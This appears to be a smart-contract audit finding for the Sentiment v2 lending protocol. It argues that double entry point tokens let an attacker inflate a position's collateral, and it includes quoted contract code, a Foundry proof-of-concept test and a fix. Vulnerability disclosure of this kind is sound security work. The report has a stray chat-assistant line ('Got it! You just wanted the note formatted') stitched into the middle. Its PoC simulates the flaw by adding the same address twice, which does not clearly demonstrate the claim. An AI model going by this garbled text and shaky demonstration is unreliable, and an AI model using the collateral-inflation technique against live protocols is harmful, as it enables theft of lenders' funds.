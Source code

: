 Tricky Eggshell Cobra

High

# Attacker Can Inflate Collateral by Exploiting Double Entry Point Tokens

## Summary

The `addToken` function in the `Position` contract can be used to allow attacker to add tokens with double entry point but the same underlying asset to the position. This issue can lead to significant problems when calculating the collateral value, as the same asset could be counted multiple times in the collateral calculation.

## Vulnerability Detail

Tokens with different addresses but the same underlying asset (referred to as double entry point tokens) can be added to the position using the `addToken` function. This is problematic because the collateral calculation function `getTotalAssetValue` counts each token address separately, potentially inflating the total collateral value.

Here's how the vulnerability works:

1. **Adding Tokens**: An attacker can add multiple addresses of the same asset to the position.
2. **Collateral Calculation**: The `getTotalAssetValue` function aggregates the value of all assets held by the position. Since it considers each token address separately, it could miscalculate the total value by counting the same underlying asset multiple times.
Got it! You just wanted the note formatted. Here it is:



**NOTE { EXTERNAL CONDITION }:**

DNP tokens can be added to the position manager using the following function:

```solidity
/// @notice Toggle asset inclusion in the known asset universe
function toggleKnownAsset(address asset) external onlyOwner {
    isKnownAsset[asset] = !isKnownAsset[asset];
    emit ToggleKnownAsset(asset, isKnownAsset[asset]);
}
```
[DEP  TOKEN](https://github.com/d-xo/weird-erc20?tab=readme-ov-file#multiple-token-addresses)
Currently, the only known double entry-point tokens  are SNX and sBTC on Ethereum mainnet.
## Impact

- **Overstated Collateral**: The position's collateral value can be artificially inflated, as the same asset is counted multiple times.
- **Protocol Risks**: This can lead to severe risks for the protocol, including potential exploitation where users can leverage inflated collateral to borrow more than they should be able to.

## Code Snippet

```solidity
/// @notice Add asset to the list of tokens currently held by the position
// @audit attacker can add token with different address but same balance
function addToken(address asset) external onlyPositionManager {
    positionAssets.insert(asset);
    if (positionAssets.length() > MAX_ASSETS) revert Position_MaxAssetsExceeded(address(this));
}
```
[link](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Position.sol#L109)
```solidity
function getTotalAssetValue(address position) public view returns (uint256) {
    address[] memory positionAssets = Position(payable(position)).getPositionAssets();
    console2.log("positionAssets", positionAssets.length);
    uint256 totalAssetValue;
    uint256 positionAssetsLength = positionAssets.length;
    for (uint256 i; i < positionAssetsLength; ++i) {
        totalAssetValue += getAssetValue(position, positionAssets[i]);
        console2.log("totalAssetValue", totalAssetValue);
    }

    return totalAssetValue;
}
```
## Coded POC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {BaseTest, MockSwap} from "../BaseTest.t.sol";
import {MockERC20} from "../mocks/MockERC20.sol";
import {Pool} from "src/Pool.sol";
import {Action} from "src/PositionManager.sol";
import {PositionManager} from "src/PositionManager.sol";
import {RiskEngine} from "src/RiskEngine.sol";
import {RiskModule} from "src/RiskModule.sol";
import {FixedPriceOracle} from "src/oracle/FixedPriceOracle.sol";
import {console2} from "forge-std/console2.sol";

contract RiskModuleUnitTests is BaseTest {
    Pool pool;
    address position;
    RiskEngine riskEngine;
    RiskModule riskModule;
    PositionManager positionManager;

    FixedPriceOracle oneEthOracle;

    function setUp() public override {
        super.setUp();

        oneEthOracle = new FixedPriceOracle(1e18);

        pool = protocol.pool();
        riskEngine = protocol.riskEngine();
        riskModule = protocol.riskModule();
        positionManager = protocol.positionManager();

        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(oneEthOracle)); // 1 asset1 = 1 eth
        riskEngine.setOracle(address(asset2), address(oneEthOracle)); // 1 asset2 = 1 eth
        riskEngine.setOracle(address(asset3), address(oneEthOracle)); // 1 asset3 = 1 eth
        vm.stopPrank();

        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(fixedRatePool, address(asset3), 0.5e18); // 2x lev
        riskEngine.acceptLtvUpdate(fixedRatePool, address(asset3));
        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), 0.5e18); // 2x lev
        riskEngine.acceptLtvUpdate(fixedRatePool, address(asset2));
        vm.stopPrank();

        asset1.mint(lender, 100e18);
        asset2.mint(user, 10e18);

        vm.startPrank(lender);
        asset1.approve(address(pool), 100e18);
        pool.deposit(fixedRatePool, 100e18, lender);
        vm.stopPrank();
    }

    function testAssetTotalAmount() public {
        vm.startPrank(user);
        asset2.approve(address(positionManager), 1e18);

        // deposit 1e18 asset2, borrow 1e18 asset1
        Action[] memory actions = new Action[](5);
        (position, actions[0]) = newPosition(
            user,
            bytes32(uint256(0x123456789))
        );
        actions[1] = deposit(address(asset2), 1e18);
        
        /*//////////////////////////////////////////////////////////////
                        SIMULTING DOUBLE ENTRY POINT TOKEN
        //////////////////////////////////////////////////////////////*/

        actions[2] = addToken(address(asset2));
        actions[3] = addToken(address(asset2));
        actions[4] = addToken(address(asset3));

        positionManager.processBatch(position, actions);
        vm.stopPrank();

        uint totalAm = riskModule.getTotalAssetValue(position);
        assertEq(totalAm, 2e18);
        console2.log("total asset value", totalAm);
    }
}

```
## Tool used

Manual Review

## Recommendation

1. **Token Uniqueness Check**: Implement a mechanism to ensure that each token address added to the position is unique or validate that tokens with different addresses are not representing the same underlying asset.
